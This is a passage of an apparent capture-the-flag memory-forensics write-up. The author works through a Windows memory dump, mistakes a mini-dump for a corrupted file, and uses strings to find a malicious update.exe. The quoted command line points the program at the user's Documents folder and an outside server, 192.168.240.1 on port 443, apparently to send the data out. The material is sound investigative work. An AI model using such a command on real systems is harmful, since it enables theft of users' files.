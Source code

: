 ```bash
        The symbol file is named appropriately or contains the correct banner

Unable to validate the plugin requirements: ['plugins.FileScan.kernel.layer_name', 'plugins.FileScan.kernel.symbol_table_name']
```

Hmm, the memory dump seems to be corrupted. Let's see if there's any workaround.

-> After trying some popular functions, I concluded that the memory dump was corrupted.

> At this point, I didn't know the memory dump was a mini-dump, so I incorrectly concluded it was corrupted when in fact it wasn't.

Let's try something like `strings` and output to a file to see the memory dump content.

![Memory dump content](<../../../assets/images/urgent-tina/2025-04-05_01-58.png>)
_Strings Content_

This is fascinating. A program called `update.exe` was executed in the user's `Desktop`.

```powershell
"c:\users\ieuser\desktop\update.exe" -e c:\users\ieuser\documents\ -s 192.168.240.1 -p 443 -x
```

> -e c:\users\ieuser\documents\: Best guess is the program extracts the data to the `Documents` folder of the user

> -s 192.168.240.1: Maybe sends the data to a server at 192.168.240.1
